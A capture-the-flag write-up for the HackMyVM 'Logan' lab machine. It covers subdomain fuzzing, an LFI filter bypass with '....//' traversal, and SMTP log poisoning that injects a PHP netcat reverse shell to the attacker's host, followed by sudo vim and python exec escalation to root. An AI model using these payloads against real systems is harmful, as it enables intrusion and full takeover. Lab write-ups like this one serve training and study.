


# writeup logan hackmyvm

## machine info
- VmName : Logan
- Creator : d3b0o
- Level : medium
- Link : [https://downloads.hackmyvm.eu/logan.zip](https://downloads.hackmyvm.eu/logan.zip)

## walkthrough
### summary
- get a subdomain using web fuzzer
- find LFI from the subdomain web site
- write php reverse shell into postfix log file
- get a user shell (www-data) using LFI
- get a user shell (logan) using sudo command
- get a root shell using sudo command

### get machine ip address
```
sudo netdiscover -i eth0 -r 192.168.0.0/24
```


### scan open ports
```
┌──(kali㉿kali)-[~/hackmyvm/logan]
└─$ nmap -T4 -sC -sV -p- -oN nmap.log 192.168.0.254
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-19 03:21 EDT
Nmap scan report for discover (192.168.0.254)
Host is up (0.00066s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
25/tcp open  smtp    Postfix smtpd
| ssl-cert: Subject: commonName=logan
| Subject Alternative Name: DNS:logan
| Not valid before: 2023-07-03T13:46:49
|_Not valid after:  2033-06-30T13:46:49
|_ssl-date: TLS randomness does not represent time
|_smtp-commands: logan.hmv, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: Host:  logan.hmv

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.93 seconds
```

### get a user shell
I checked out a website (port 80).
- whatweb
```
┌──(kali㉿kali)-[~/hackmyvm/logan]
└─$ whatweb http://logan.hmv                  
http://logan.hmv [200 OK] Apache[2.4.52], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[192.168.0.254], JQuery[3.4.1], Script[text/javascript], Title[Logan], X-UA-Compatible[IE=edge]
```


I think that a form of this website is not working.


I could not find useful information from the website.
So, I tried to find a subdomain.
- wfuzz
```
┌──(kali㉿kali)-[~/hackmyvm/logan]
└─$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u "http://logan.hmv" -H "HOST: FUZZ.logan.hmv" -t 100 -Z --hh 65 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://logan.hmv/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                    
=====================================================================

000000024:   200        62 L     101 W      1112 Ch     "admin - admin"                                                            
000009532:   400        10 L     35 W       301 Ch      "#www - #www"                                                              
000010581:   400        10 L     35 W       301 Ch      "#mail - #mail"                                                            
000047706:   400        10 L     35 W       301 Ch      "#smtp - #smtp"                                                            
000103135:   400        10 L     35 W       301 Ch      "#pop3 - #pop3"                                                            

Total time: 217.2565
Processed Requests: 114441
Filtered Requests: 114436
Requests/sec.: 526.7551
```

I could find a subdomain website (admin.logan.hmv).
So, I checked out the website.
- Administration panel

- Upload files

I have uploaded some files. But, I could not find the files from the website.
- Logs

There was no clearlogs.php file on the website. There was no backup files (clearlogs.php.bak, and so on) too.
- Payments

I found that there was some files (01, 02, 03) on the website.
I realized the website removed "../" strings from input strings after trying many things.

So, I tried "....//....//....//....//etc/passwd" strings, I could get LFI (Local File Inclusion) from the website.


Because I could read a postfix log file from the website using LFI, I tried to get a shell using it.

```
┌──(kali㉿kali)-[~/hackmyvm/logan]
└─$ nc logan.hmv 25
220 logan.hmv ESMTP Postfix (Ubuntu)
mail from:logan
250 2.1.0 Ok
rcpt to:<?php exec("rm /tmp/p;mkfifo /tmp/p;cat /tmp/p|/bin/sh -i 2>&1|nc 192.168.0.4 1234 >/tmp/p"); ?>
501 5.1.3 Bad recipient address syntax
```

I could get a user shell (www-data).

When I executed sudo command, I found that I could execute vim command with logan's privileges.
```
www-data@logan:/var/www/admin$ sudo -l
Matching Defaults entries for www-data on logan:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on logan:
    (logan) NOPASSWD: /usr/bin/vim
www-data@logan:/var/www/admin$ 
```

So, I executed vim command with logan's privileges and execute bash command from vim.

```
www-data@logan:/var/www/admin$ sudo -u logan /usr/bin/vim

logan@logan:/var/www/admin$ id
uid=1000(logan) gid=1000(logan) groups=1000(logan),27(sudo),1002(administration)
```

I could get a user shell (logan) and a user flag (logan). 😺
```
logan@logan:~$ ls -la
total 36
drwxr-xrwx 4 logan logan 4096 Jul 18 08:42 .
drwxr-xr-x 3 root  root  4096 Jul 17 20:59 ..
lrwxrwxrwx 1 root  root     9 Jul 17 11:11 .bash_history -> /dev/null
-rw-r--r-x 1 logan logan  220 Jan  6  2022 .bash_logout
-rw-r--r-x 1 logan logan 3771 Jan  6  2022 .bashrc
drwx---r-x 2 logan logan 4096 Jul  3 13:41 .cache
drwxrwxr-x 3 logan logan 4096 Jul 17 12:08 .local
-rw-r--r-x 1 logan logan  807 Jan  6  2022 .profile
-rw-r--r-x 1 logan logan    0 Jul  3 13:42 .sudo_as_admin_successful
-rw-r--r-- 1  1002  1003   68 Jul 17 12:41 to-do
-rw-r--r-- 1 logan logan   16 Jul 17 20:45 user.txt
logan@logan:~$ cat user.txt 
User: i*******s
```

### get a root shell
```
logan@logan:~$ cat to-do 
- Go outside
- Try the new script that gave me root to learn python
```

When I executed sudo command, I found that I could execute a python script with root's privileges.
```
logan@logan:~$ sudo -l
Matching Defaults entries for logan on logan:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User logan may run the following commands on logan:
    (root) NOPASSWD: /usr/bin/python3 /opt/learn_some_python.py
logan@logan:~$ ls -l /opt/learn_some_python.py
-rw------- 1 root root 132 Jul 18 08:48 /opt/learn_some_python.py
```

So. I tried to execute the script.
```
logan@logan:~$ sudo -u root /usr/bin/python3 /opt/learn_some_python.py
Welcome!!!

 The first you need to now is how to use print, please type print('hello')

aaaaa
Traceback (most recent call last):
  File "/opt/learn_some_python.py", line 3, in <module>
    exec(comand)
  File "<string>", line 1, in <module>
NameError: name 'aaaaa' is not defined
```

It looks like I can enter python scripts into the exec function.
So, I entered the following.
```
import os;os.system("/bin/bash");
```
```
logan@logan:~$ sudo -u root /usr/bin/python3 /opt/learn_some_python.py
Welcome!!!

 The first you need to now is how to use print, please type print('hello')

import os;os.system("/bin/bash");
root@logan:/home/logan# id
uid=0(root) gid=0(root) groups=0(root)
```

I could get a root shell and a root flag. 😺
```
root@logan:~# ls -la
total 48
drwx------  5 root root 4096 Jul 17 21:02 .
drwxr-xr-x 19 root root 4096 Jul  3 13:40 ..
lrwxrwxrwx  1 root root    9 Jul 17 11:11 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  3 root root 4096 Jul  3 14:10 .launchpadlib
-rw-------  1 root root   20 Jul 17 11:52 .lesshst
drwxr-xr-x  3 root root 4096 Jul  3 13:46 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   66 Jul  4 19:13 .selected_editor
-rw-r--r--  1 root root    0 Jul  3 13:45 .sudo_as_admin_successful
-rw-------  1 root root  985 Jul 17 14:27 .viminfo
-rw-r--r--  1 root root  169 Jul  3 14:15 .wget-hsts
-rw-r--r--  1 root root   17 Jul 17 20:44 root.txt
drwx------  3 root root 4096 Jul  4 15:52 snap
root@logan:~# cat root.txt 
Root: s********u
```
